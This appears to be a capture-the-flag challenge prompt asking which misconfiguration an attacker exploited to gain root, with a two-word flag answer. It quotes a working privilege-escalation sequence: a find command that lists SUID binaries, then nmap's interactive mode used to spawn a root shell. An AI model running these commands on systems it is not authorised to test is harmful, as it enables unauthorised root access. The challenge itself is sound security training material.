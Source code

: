 ## Intro:

Determine what misconfiguration was exploited. <br>
The attacker was able to take advantage of it and gain `root`. 
The attacker initially tried the following command:
```bash
find / -type f -perm -u=s 2>/dev/null
```

<br>
One of the binaries that showed in his output was `nmap`. So, his next commands were: <br> 

```bash
nmap --interactive
nmap> !sh
```
<br>

After these commands, he gained root. What system misconfiguration was exploited?<br>
Hint: the misconfiguration name 2 words long.

Flag format: **`flag{----_---}`**

